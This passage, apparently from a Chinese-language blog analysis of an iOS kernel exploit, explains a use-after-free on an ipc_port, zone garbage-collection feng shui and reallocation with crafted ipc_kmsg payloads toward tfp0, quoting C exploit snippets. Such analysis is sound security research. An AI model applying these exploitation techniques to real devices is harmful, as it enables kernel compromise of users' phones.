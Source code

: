 接下来使用前面提到的ipc_port deference漏洞将找到的ipc_port释放，即make_dangling  
```C
make_dangling(first_port);
```
![freed_first_ipc_port_page]({{site.url}}{{site.baseurl}}/res/freed_first_ipc_port_page.png)  
上图中，first_port即是之前找到的符合要求的ipc_port的用户态句柄，现在已经使用漏洞将其内存强行释放掉了，留下用户态的first_port句柄还指向它。注意这里的强行释放指的是没有抹除ipc_entry中的内容。  
    
#### 3. 释放page上其他的ipc_port，使整个page处于释放状态  
直接将page上的其他port使用`mach_port_destroy`释放掉即可。  
![all_freed_ports]({{site.url}}{{site.baseurl}}/res/all_freed_ports.png)  
    
#### 4. 触发gc，使得page能够跨zone被重新使用  
目前上述的page里面的ipc_port已经全部被释放了，只留下一个first_port作为dangling pointer还指向page中的目标ipc_port，后面就可以用一些有目的性的内容重用这个page了（主要指的是重用目标ipc_port内存）。  
但和普通的UAF不一样的是，并不能直接分配一块大小相近的内存来重用，原因是这个page属于特定的ipc port zone。为了能重用到这块page，我们需要触发gc(garbage collection)将其从ipc port zone中释放出来。  
```C
  // free the smaller ports, they will get gc'd later:
  for (int i = 0; i < n_smaller_ports; i++) {
    mach_port_destroy(mach_task_self(), smaller_ports[i]);
  }

  
  // now try to get that zone collected and reallocated as something controllable (kalloc.4096):

  const int replacer_ports_limit = 200; // about 200 MB
  mach_port_t replacer_ports[replacer_ports_limit];
  memset(replacer_ports, 0, sizeof(replacer_ports));
  uint32_t i;
  for (i = 0; i < replacer_ports_limit; i++) {
    uint64_t context_val = (context_magic)|i;
    *context_ptr = context_val;
    replacer_ports[i] = send_kalloc_message(replacer_message_body, replacer_body_size);
    
    // we want the GC to actually finish, so go slow...
    pthread_yield_np();
    usleep(10000);
    printf("%d\n", i);
  }
```
作者在触发gc前，提前申请了150MB的数据，这里将其全部释放以供gc使用；然后慢慢重新分配内存，这些内存全部填充了准备好的ipc_kmsg内容，注意每申请1MB就需要等10ms。  
    
#### 5. 使用构造的ipc_kmsg重用page，ipc_kmsg将用fake_port填充page  
第4步中，提到触发gc时，用精心构造的ipc_kmsg重用page，这里很关键，这些数据是为tfp0准备的。上面的代码中可以看到，replacer_message_body即是构造好的数据。主要由`build_message_payload`函数构造：  
```C
  uint8_t* replacer_message_body = build_message_payload(first_port_address, replacer_body_size, message_body_offset, 0, 0, &context_ptr);
  printf("replacer_body_size: 0x%x\n", replacer_body_size);
  printf("message_body_offset: 0x%x\n", message_body_offset);
```  
  